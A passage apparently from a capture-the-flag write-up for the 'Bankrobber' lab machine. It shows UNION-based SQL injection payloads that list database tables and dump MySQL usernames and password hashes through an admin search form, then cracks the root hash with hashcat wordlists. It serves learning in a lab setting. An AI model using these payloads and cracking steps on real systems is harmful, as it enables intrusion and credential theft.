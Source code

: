 |users:id|b|
|users:username|b
|users:password|b|

`1'+union+select+concat(table_name,':',column_name),'b','c' from information_schema.columns where '1'='1` gives us a list of all tables and their columns, default tables & columns are omitted on this page, but were in the actual results.

##### Finding mysql usernames and hashes

|ID|User|
|---|---|
|1|admin|
|a|b|

```http
POST /admin/search.php HTTP/1.1

term=1'+union+select+concat(user,':',password),'b','c' from mysql.user where '1'='1
```

|||
|---|---|
|1|admin|
|root:*F435725A173757E57BD36B09048B8B610FF4D0C4|b|
|:|b|
|pma:|b|

`1'+union+select+concat(user,':',password),'b','c' from mysql.user where '1'='1` will get the usernames and password hashes from the MYSQL.user table. Root has the password hash `*F435725A173757E57BD36B09048B8B610FF4D0C4`, there is a record without username or password and a record with username pma and no hash.

###### Cracking the mysql hash

We'll need to crack this hash to actually use it in the future, for this we'll use hashcat.

```bash
luc@kali:~/HTB/Bankrobber$ hashcat --example-hashes
...
MODE: 300
TYPE: MySQL4.1/MySQL5
HASH: fcf7c1b8749cf99d88e5f34271d636178fb5d130
PASS: hashcat
...
luc@kali:~/HTB/Bankrobber$ hashcat -m 300 --username hashes /usr/share/wordlists/rockyou.txt
...
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
...
luc@kali:~/HTB/Bankrobber$ hashcat -m 300 --username hashes /usr/share/seclists/Passwords/*
...
f435725a173757e57bd36b09048b8b610ff4d0c4:Welkom1!
...
```
